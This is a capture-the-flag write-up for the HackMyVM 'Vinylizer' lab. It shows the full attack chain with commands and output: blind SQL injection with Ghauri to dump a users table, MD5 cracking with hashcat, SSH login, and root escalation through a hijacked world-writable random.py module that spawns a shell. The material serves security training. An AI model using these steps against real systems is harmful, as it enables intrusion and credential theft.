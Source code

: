 ```yaml
---
title: HackMyVM - Vinylizer
description: 
author: raylex
tags: SQLI PYTHON BLIND-SQLI
categories: CTF
date: 2024-02-02
---
```

![vinylizer](/assets/images/vinylizer.png)
## Enumeration
I'll begin with a Nmap scan
```shell
nmap -SCV 192.168.56.4

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-02 09:55 WAT
Nmap scan report for 192.168.56.4
Host is up (0.0012s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 f8:e3:79:35:12:8b:e7:41:d4:27:9d:97:a5:14:b6:16 (ECDSA)
|_  256 e3:8b:15:12:6b:ff:97:57:82:e5:20:58:2d:cb:55:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Vinyl Records Marketplace
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.57 seconds
```
### 80 - HTTP
Inputting `admin'` as the username to test for SQLi returns internal server error which suggests the target may be vulnerable to [blind sql injection](https://portswigger.net/web-security/sql-injection/blind). 
This type of SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
## Foothold
### Blind SQLi using Ghauri
I'll fire up [Ghauri](https://github.com/r0oth3x49/ghauri), copy the login HTTP request to a text file by intercepting the request with [Caido - A lightweight web security auditing toolkit](https://caido.io/), and begin testing  
![caido](/assets/images/vinylyzer-caido-request.png){: w="700" h="400" }  
The first thing i have to do is confirm the target is vulnerable to SQLi.  
I'll use the `--dbs` option which will perform sql injecton tests on the target and attempt to enumerate available databases, i'll also use the option `-r` to specify the request file `req.txt` i created earlier and option `-p` to specify the parameter i want to test which is username
```shell
ghauri -r req.txt -p username --dbs
```
The test is successful and i can see that the target is indeed vulnerable.  
The backend DBMS is identified to be `MySQL` 
![ghauri](/assets/images/vinylyzer-ghauri-sqli.png){: w="700" h="400" }  
Further down i can see a list of available databases
```shell
available databases [3]:
[*] performance_schema
[*] information_schema
[*] vinyl_marketplace
```
The `performance_schema` and `information_schema` databases are standard MySQL dbs, so the target db is `vinyl_marketplace`.  
I'll list the tables available on the database using option `--tables`, option `--dbms` to specify the target's DBMS and option `-D` to specify the database
```shell
ghauri -r req.txt -p username --dbms mysql -D vinyl_marketplace --tables

Database: vinyl_marketplace
[1 tables]
+-------+
| users |
+-------+
```
The target db contains a single table `users`, i'll dump the table using the option `--dump` and specify the target table with the option `-T`
```shell
ghauri -r req.txt -p username --dbms mysql -D vinyl_marketplace -T users --dump

Database: vinyl_marketplace
Table: users
[2 entries]
+----+-----------+----------------------------------+----------------+
| id | username  | password                         | login_attempts |
+----+-----------+----------------------------------+----------------+
| 1  | shopadmin | 9432522ed1a8fca612b11c3980a031f6 | 0              |
| 2  | lana      | password123                      | 0              |
+----+-----------+----------------------------------+----------------+
```
The `users` table contains 2 rows; `shopadmin` and `lana` .   
Attempt to login into the web app is successful for both users but it yields nothing.  
The shopadmin's password is an md5 hash, i'll crack this hash using [hashcat](https://hashcat.net/hashcat/) tool and [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) wordlist
```shell
hashcat -a 0 -m 0 "9432522ed1a8fca612b11c3980a031f6" ./rockyou.txt

Cracked: addicted2vinyl
```
>-a 0 -> straight attack mode  
>-m 0 -> md5 hash mode

I'll login as `shopadmin` via `SSH` and retrieve the user flag
```shell
shopadmin@vinylizer:~$ cat user.txt
I_******L5
```
## Privilege Escalation 
- - -
Listing the sudo privileges, i see that user `shopadmin` may run command `/usr/bin/python3 /opt/vinylizer.py` as root without password  
![sudoers](/assets/images/vinylyzer-sudoers.png){: w="700" h="400" }  
### Analysis of /opt/vinylizer.py
The program seems to be a simple command-line tool for managing a collection of vinyl records, allowing users to add, delete, list, and randomize albums and their sides. The data is stored in a JSON file `config.json`. 
The program imports two modules `json` and `random`.  I'll check where these modules are loaded from 
```python
shopadmin@vinylizer:~$ python3
Python 3.10.12 (main, Nov 20 2023, 15:14:05) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import json; import random; json; random
<module 'json' from '/usr/lib/python3.10/json/__init__.py'>
<module 'random' from '/usr/lib/python3.10/random.py'>
>>>
```
`json` is loaded from `/usr/lib/python3.10/json/__init__.py` and only the root user has write access to it,  
![json.py](/assets/images/vinylyzer-json.png){: w="700" h="400" }  
`random` is loaded from `/usr/lib/python3.10/random.py` and all users have write access to it.  
![random.py](/assets/images/vinylyzer-random.png){: w="700" h="400" }  
This basically means if i  put a malicious code in `/usr/lib/python3.10/random.py` run `sudo /usr/bin/python3 /opt/vinylizer.py`, the malicious `random.py` will be executed as the root user when python attempts to import the module
### Shell as root
I'll make a backup of `/usr/lib/python3.10/random.py`
```shell
cp /usr/lib/python3.10/random.py /home/shopadmin
```
...and modify the the original script into:
```python
import pty
pty.spawn("/bin/bash")
```
Now all i have to do is run the `/opt/vinylizer.py` program with sudo  
![root-shell](/assets/images/vinylyzer-root.png){: w="700" h="400" }  
...and retrieve root flag
```shell
root@vinylizer:/home/shopadmin# cat /root/root.txt
4U*****L3
```